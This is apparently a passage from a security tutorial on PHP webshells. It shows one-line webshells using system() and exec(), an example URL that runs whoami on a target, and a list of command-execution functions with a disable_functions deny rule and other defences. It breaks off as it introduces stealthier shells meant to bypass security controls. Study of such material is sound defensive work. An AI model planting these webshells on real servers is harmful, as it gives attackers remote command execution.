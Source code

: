 #### **Basic PHP Webshells**
A classic example of a simple PHP webshell is:

`<?php system($_GET['cmd']); ?>` 

This script takes a command from the URL (`cmd` parameter) and executes it using PHP’s `system()` function. For example, accessing:

`http://target.com/shell.php?cmd=whoami`

Would execute `whoami` on the server, revealing the user running the webserver process.

Another common variation uses `exec()`:

`<?php echo exec($_GET['cmd']); ?>` 

This works similarly but does not display the full command output like `system()`.

#### **Common PHP Functions Used in Webshells**
Most PHP webshells use one or more of the following functions to execute commands:

-   **`system`** – Executes a system command and outputs the result.
-   **`exec`** – Executes a system command but only returns the last line of output.
-   **`shell_exec`** – Runs a command and returns the full output as a string.
-   **`passthru`** – Executes a command and directly outputs the raw result, useful for binary responses.
-   **`popen`** – Opens a pipe to a process, allowing interaction with its input/output.
-   **`proc_open`** – More advanced method to start a process and interact with its I/O streams.

#### **Detection and Prevention**
Since these functions are commonly abused, many security tools flag their usage. Effective defenses include:

-   **Disabling dangerous functions** in `php.ini`:
    
    `disable_functions = system, exec, shell_exec, passthru, popen, proc_open` 

- **Using Web Application Firewalls (WAFs)** to detect suspicious requests.
- **Implementing file integrity monitoring** to detect unauthorized PHP files.
- **Restricting user permissions** to limit PHP’s ability to execute system commands.

## Leveraging Native PHP Functions for Stealthy Webshells

While traditional PHP webshells rely on direct system command execution (`system()`, `exec()`, etc.), these functions are frequently monitored and restricted in hardened environments. A more advanced approach involves **abusing native PHP functions** that provide similar capabilities while bypassing common security controls.

In this section, we’ll explore alternative methods using **native PHP functionalities** to maintain control over a compromised web server. Let's try to simulate the functionality of a shell using these functions:

### whoami

There are several alternatives to simulate the whoami command using native PHP functions as shown below:
